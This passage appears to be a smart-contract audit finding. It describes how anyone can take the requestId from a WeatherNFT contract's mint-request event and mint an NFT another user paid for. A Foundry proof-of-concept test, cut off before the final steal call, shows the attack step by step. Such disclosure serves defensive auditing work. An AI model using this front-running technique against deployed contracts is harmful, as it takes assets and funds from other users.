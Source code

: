 **Likelihood**: High

* It is very easy to listen to the events emitted by the `requestMintWeatherNFT` function and get the requestId to use later to steal the NFT.

**Impact**: High

* Anyone can mint an NFT paid by someone else. This can lead to a loss of funds for the original user and a loss of trust in the system.

## Proof of Concept

This is a simple test where a user requests and pays for the minting of an NFT. The attacker listens to the events emitted by the `requestMintWeatherNFT` function and gets the requestId. The attacker then calls the `fulfillMintRequest` function with the stolen requestId and mints the NFT for themselves.

```javascript
function test_steal_weatherNFT() public {
    string memory pincode = "125001";
    string memory isoCode = "IN";
    bool registerKeeper = false;
    uint256 heartbeat = 12 hours;
    uint256 initLinkDeposit = 5e18;
    uint256 tokenId = weatherNft.s_tokenCounter();

    // User request and pays for the mint
    vm.startPrank(user);
    linkToken.approve(address(weatherNft), initLinkDeposit);
    vm.recordLogs();
    weatherNft.requestMintWeatherNFT{value: weatherNft.s_currentMintPrice()}(
        pincode,
        isoCode,
        registerKeeper,
        heartbeat,
        initLinkDeposit
    );
    vm.stopPrank();

    // Attacker steals the request id from the chain
    Vm.Log[] memory logs = vm.getRecordedLogs();
    bytes32 reqId;
    for (uint256 i; i < logs.length; i++) {
        if (logs[i].topics[0] == keccak256("WeatherNFTMintRequestSent(address,string,string,bytes32)")) {
            (, , , reqId) = abi.decode(logs[i].data, (address, string, string, bytes32));
            break;
        }
    }
    assert(reqId != bytes32(0));

    // Resolve the weather request
    (
        uint256 reqHeartbeat,
        address reqUser,
        bool reqRegisterKeeper,
        uint256 reqInitLinkDeposit,
        string memory reqPincode,
        string memory reqIsoCode
    ) = weatherNft.s_funcReqIdToUserMintReq(reqId);

    vm.prank(functionsRouter);
    bytes memory weatherResponse = abi.encode(WeatherNftStore.Weather.RAINY);
    weatherNft.handleOracleFulfillment(reqId, weatherResponse, "");

```